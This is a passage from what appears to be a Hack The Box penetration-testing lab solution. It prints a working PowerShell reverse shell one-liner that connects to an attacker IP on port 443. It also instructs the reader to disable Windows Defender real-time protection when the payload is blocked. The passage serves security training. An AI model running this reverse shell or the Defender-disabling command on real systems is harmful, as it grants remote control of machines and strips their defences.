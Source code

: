 ```powershell
PowerShell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('PWNIP',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```
C:\Users\htb-student\Desktop>PowerShell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.15.49',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

After executing the reverse shell call-back command on the Windows target machine, students will receive the reverse shell on their Pwnbox/`PMVPN`:

![[HTB Solutions/CPTS/z. images/ae515a54044b94666b95552ac5ff1ca3_MD5.jpg]]

However, in case students get an error message of Windows Defender stopping their execution of the command:

```
At line:1 char:1
+ $client = New-Object System.Net.Sockets.TCPClient('10.10.15.49',443) ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

Students need to open PowerShell as "Administrator" and disable Windows Defender from using real-time protection:

Code: powershell

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

```
PS C:\Windows\system32> Set-MpPreference -DisableRealtimeMonitoring $true
```

![[HTB Solutions/CPTS/z. images/e8ffe321c032d180a57487bee55f14bb_MD5.jpg]]

Subsequently, students need to rerun the reverse shell call-back command on the Windows target machine to receive their reverse shell session.

At last, students need to issue the `hostname` command and find the answer:

Code: powershell

```powershell
hostname
```
